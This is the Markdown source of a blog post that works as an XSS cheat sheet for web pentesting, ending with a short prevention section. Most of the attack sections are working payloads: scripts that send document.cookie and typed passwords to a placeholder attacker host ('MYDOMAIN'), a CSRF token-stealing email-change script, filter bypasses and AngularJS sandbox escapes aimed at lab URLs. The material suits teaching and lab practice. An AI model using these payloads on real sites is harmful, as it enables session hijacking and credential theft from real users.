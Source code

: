 ```yaml
---
title: "XSS attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "XSS cheatsheet"

tags: ["web", "penetest", "xss"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site scripting

Cross-site scripting is used to inject malicious javascript code to user browser. 

This attack can lead to a total control of the application in use. More details and specific stuff can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

## Basics


- Exploiting cross-site scripting to steal cookies
	This part represent the principal use of XSS. Web apps usually use cookies to save and remember sessions. 
    
    In that way, this attack get the cookie in question and send it back to your own domain so you can easily capture it. 
	
	There is comon security system used to avoid this attack:
	-   The victim might not be logged in.
	-   Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
	-   Sessions might be locked to additional factors like the user's IP address.
	-   The session might time out before you're able to hijack it.
	
	Here is an example of that type of XSS:
        {{< highlight javascript "lineNos=false" >}}<script> 
            fetch('https://MYDOMAIN', {  method: 'POST',  mode: 'no-cors',  body:document.cookie  });  
        </script>
        {{< /highlight >}}


- Exploiting cross-site scripting to capture passwords
	
	This technique can be use because of stupid password managers and auto-fill option. Basicly the only thing you have to do is to inject an option in the input label to read data when they are enter. Here is an example : 
	
    {{< highlight html "lineNos=false" >}}
    <input name=username id=username>  
    <input type=password name=password onchange="
    if(this.value.length)fetch('https://MYDOMAIN',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">
    {{< /highlight >}}


- Exploiting XSS to perform CSRF

	XSS can also be used to perform CSRF (more details in the next section). Here is an example payload working with token protection enable: 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	var req = new XMLHttpRequest();  
	req.onload = handleResponse;  
	req.open('get','/my-account',true);  
	req.send();  
	function handleResponse() {  
	 var token = this.responseText.match(/name="csrf" value="(\\w+)"/)\[1\];  
	 var changeReq = new XMLHttpRequest();  
	 changeReq.open('post', '/my-account/change-email', true);  
	 changeReq.send('csrf='+token+'&email=test@test.com')  
	};  
	</script>
	{{< /highlight >}}


## Reflected XSS 

Reflected XSS is the simplest variety of cross-site scripting. The application receive data in an HTTP request and includes that data within the immediate response in an unsafe way. Nothing is stored in the webapp and the trigger only works when the user click on the link or whatever with this particular payload include. Here are some examples : 

- HTML context with nothing encoded

	{{< highlight javascript "lineNos=false" >}}
	<script>alert(1)</script>
	{{< /highlight >}}
 
 
- HTML context with most tags and attributes blocked

	{{< highlight html "lineNos=false" >}}
	<iframe src="https://WEBSITE/?search="><body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
	{{< /highlight >}}


- HTML context with all tags blocked except custom ones

	{{< highlight javascript "lineNos=false" >}}
	<script>  
	location = 'https://WEBSITE/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';  
	</script>
	{{< /highlight >}}


- Event handlers and href attributes blocked

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
	{{< /highlight >}}

- Some SVG markup allowed

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search="><svg><animatetransform onbegin=alert(1)>
	{{< /highlight >}}


- Reflected XSS with AngularJS sandbox escape without strings

	{{< highlight javascript "lineNos=false" >}}
	https://your-lab-id.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d\[\].join;\[1\]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	{{< /highlight >}}
	
	
- Reflected XSS with AngularJS sandbox escape and CSP

	{{< highlight html "lineNos=false" >}}
	<script>  
	location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';  
	</script>
	{{< /highlight >}}
	

## Stored XSS 
Stored XSS is an injection in the actual page by any way (message, template injection, input, ...). Here are some examples: 

- Stored XSS into anchor href attribute with double quotes HTML-encoded

	{{< highlight javascript "lineNos=false" >}}
	javascript:alert('XSS')
	{{< /highlight >}}
	 
	 
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

	{{< highlight javascript "lineNos=false" >}}
	&apos;-alert(1)-&apos;
	{{< /highlight >}}
	

## DOM XSS 

DOM Based XSS is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

As the vulnaribility is app specific, there will be no example and you will have to use your brain. 


## Escape CSP

CSP or 'Content Security Policy ' is a protection to XSS, clickjacking, code injection and more. CSP can be found on the server answer. You can use a [checker](https://csp-evaluator.withgoogle.com/) to dig in what you have in front of you. As the topic is large again here is a [link](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to understand what the checker gave you 


## How to prevent them 

-   **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
-   **Encode data on output.** At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
-   **Use appropriate response headers.** To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
-   **Content Security Policy.** As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.